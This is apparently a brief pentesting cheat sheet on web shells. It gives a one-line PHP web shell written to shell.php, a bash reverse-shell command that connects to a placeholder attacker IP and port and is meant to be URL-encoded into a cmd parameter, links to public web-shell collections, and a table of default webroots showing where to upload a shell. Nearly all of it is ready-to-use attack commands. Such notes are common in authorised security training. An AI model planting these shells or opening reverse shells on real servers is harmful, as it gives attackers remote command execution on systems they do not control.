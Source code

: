 #shell
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```shell
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
URL encode it and send as cmd query or post parameter

**Collection of webshells laudanum**:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
